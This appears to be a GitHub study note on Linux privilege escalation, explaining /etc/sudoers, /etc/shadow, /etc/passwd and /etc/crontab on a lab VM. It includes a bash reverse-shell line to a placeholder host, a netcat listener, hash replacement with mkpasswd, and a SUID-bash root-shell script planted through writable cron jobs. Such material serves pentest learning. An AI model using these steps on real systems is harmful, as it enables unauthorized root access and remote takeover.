







# Privileges Escalation - Linux
# Sensitive files
- [/etc/sudoers](#etcsudoers)
- [/etc/shadow](#etcshadow)
- [/etc/passwd](#etcpasswd)
- [/etc/crontab](#etccrontab)

## /etc/sudoers 
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user. 

  
  
  If a user is specified under the root line, it means that he's personally allowed to run the **sudo command**. If he's not specified there, he could run the sudo command anyway, belonging to the **sudo group** 

    - In this first VM, the user _diego_ belongs to _diego_ and _users_ groups, so he shouldn't be able to run the sudo command. But he's specified in sudoers file, so he can do it.<br>
    

    - In this second VM, the user _diego_ belongs to many groups, including the _sudo_ group, so he's able to run the sudo command, even without being specified in sudoers file.<br>
    

## /etc/shadow 
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  

  That complex string between the first and second `:` is the hashed password of user _diego_.
  - `mkpasswd -m <algorithm> <new password>` to generate a new hashed password and then replace it.

## /etc/passwd 
- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  

  That `x` means that any hash is set for user _diego_.<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

## /etc/crontab 
- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  

  Example of cron jobs scheduled to run **as root** every minute:
  
  
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to get a root shell in this way:
  ```
  #!/bin/bash
  mkdir /tmpdir
  cp /bin/bash /tmpdir/rootbash
  chmod +xs /tmpdir/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
    - If you type `whoami`, you should read _root_.
    - You can choose any shell you want (`/bin/bash`, `/bin/sh`, `/bin/zsh`).

    ### Local test
    - Create `script.sh` in your home folder and paste the previous bash code,
    - Run it with `sudo script.sh`. It should create `/tmpdir/rootbash` as said before.
    - Run the shell with `/tmpdir/rootbash`. It should open a shell as root. 
    - Check your role with `whoami`.
